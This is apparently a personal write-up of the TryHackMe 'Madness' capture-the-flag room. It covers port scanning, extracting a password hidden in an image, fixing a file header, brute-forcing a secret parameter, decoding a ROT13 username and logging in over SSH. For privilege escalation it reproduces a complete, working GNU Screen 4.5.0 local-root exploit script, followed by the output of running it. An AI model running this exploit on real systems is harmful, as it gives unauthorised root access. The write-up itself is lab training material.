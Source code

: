 # Madness(THM)

## Port Scanning

```bash
**┌──(bc-here㉿kali)-[~/CTF{}/THM]
└─$ sudo nmap -sS -sV -O mad >> ports.txt 

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))**

```

## Web Server

- `[http://mad](http://mad/)/`   here we found that the webserver is running on Apache2

![image.png](Madness(THM)%201a46c9ed6e9b41c98c3905d65692574b/image.png)

- The purple dot is an image but the image is not opening.
- [`http://mad/thm.jpg`](http://mad/thm.jpg)  lets download the image.

## THM Given Image

![5iW7kC8.jpg](Madness(THM)%201a46c9ed6e9b41c98c3905d65692574b/5iW7kC8.jpg)

- If we extract this image we find some interesting things like a `.out` file and a `password.txt` file

```bash

┌──(bc-here㉿kali)-[~/CTF{}/THM/madness]
└─$ stegseek -sf intropic.jpg        
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "password.txt".
[i] Extracting to "intropic.jpg.out".

┌──(bc-here㉿kali)-[~/CTF{}/THM/madness]
└─$ cat intropic.jpg.out 
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
```

## Hex Code

- If we see the hex code of thm.jpg file we can find that format is not jpg rather its png
- We have to change it to jpg or `JFIF` format.
- [File Extension Changer in Hex Mode (wiki)](https://en.wikipedia.org/wiki/List_of_file_signatures?source=post_page-----8a8080672083--------------------------------)

```bash
┌──(bc-here㉿kali)-[~/CTF{}/THM/madness]
└─$ hexeditor thm.jpg 
```

![image.png](Madness(THM)%201a46c9ed6e9b41c98c3905d65692574b/image%201.png)

```bash
┌──(bc-here㉿kali)-[~/CTF{}/THM/madness]
└─$ open thm.jpg  
```

![2024-08-24_08-43.bmp](Madness(THM)%201a46c9ed6e9b41c98c3905d65692574b/2024-08-24_08-43.bmp)

## Hidden Directory

![image.png](Madness(THM)%201a46c9ed6e9b41c98c3905d65692574b/image%202.png)

![image.png](Madness(THM)%201a46c9ed6e9b41c98c3905d65692574b/image%203.png)

- There is a semicolon after `Secret Entered:` and the comment is saying that the secret key will be from `0-99`
- Lets bruteFroce that using `burpsuite`

![image.png](Madness(THM)%201a46c9ed6e9b41c98c3905d65692574b/image%204.png)

- `/?secret=`  parameter also work for the secret entry.
- So now we can bruteFroce from 0-99 in this paramater in the burp intuder

![image.png](Madness(THM)%201a46c9ed6e9b41c98c3905d65692574b/image%205.png)

![image.png](Madness(THM)%201a46c9ed6e9b41c98c3905d65692574b/image%206.png)

- I went for 73 because its the longest!
- Urgh, you got it right! But I won't tell you who I am! `y2RPJ4QaPF!B`

![image.png](Madness(THM)%201a46c9ed6e9b41c98c3905d65692574b/image%207.png)

- username → wbxre

## SSH Login

![2024-08-24_09-51.bmp](Madness(THM)%201a46c9ed6e9b41c98c3905d65692574b/2024-08-24_09-51.bmp)

## User Flag

![image.png](Madness(THM)%201a46c9ed6e9b41c98c3905d65692574b/image%208.png)

## Getting Privilege

```bash
joker@ubuntu:/home$ find / -type f -perm -04000 -ls 2>/dev/null

   150852   1552 -rwsr-xr-x   1 root     root        1588648 Jan  4  2020 /bin/screen-4.5.0

```

```bash
┌──(bc-here㉿kali)-[~/CTF{}/THM/madness]
└─$ searchsploit screen 4.5.0
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                        |  Path
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                                                         | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                                                   | linux/local/41152.txt
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(bc-here㉿kali)-[~/CTF{}/THM/madness]
└─$ searchsploit -m 41154
  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
    Codes: N/A
 Verified: True
File Type: Bourne-Again shell script, ASCII text executable
Copied to: /home/bc-here/CTF{}/THM/madness/41154.sh

```

The shell is…….

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell  
```

- Copy the shell and create a file on the target machine and run it

```bash
joker@ubuntu:~$ nano tuises.sh
joker@ubuntu:~$ chmod +x tuises.sh 
joker@ubuntu:~$ ./tuises.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

# whoami
root
```

- In our country `tuises`  means you are finished! 😁😁

## Root Flag

![image.png](Madness(THM)%201a46c9ed6e9b41c98c3905d65692574b/image%209.png)

## Potential Creds

1. `Password:` →  `*axA&GF8dP` 
    1. It could be a hash format
2. /hiddenDirectory from hex edit
3. `y2RPJ4QaPF!B` → passphrase for thm.jpg
4. username → `wbxre`
    1. It doesn’t seem to be a valid username lets try to decode it.
5. Its a ROT13 format which is `wbxre` → `joker`
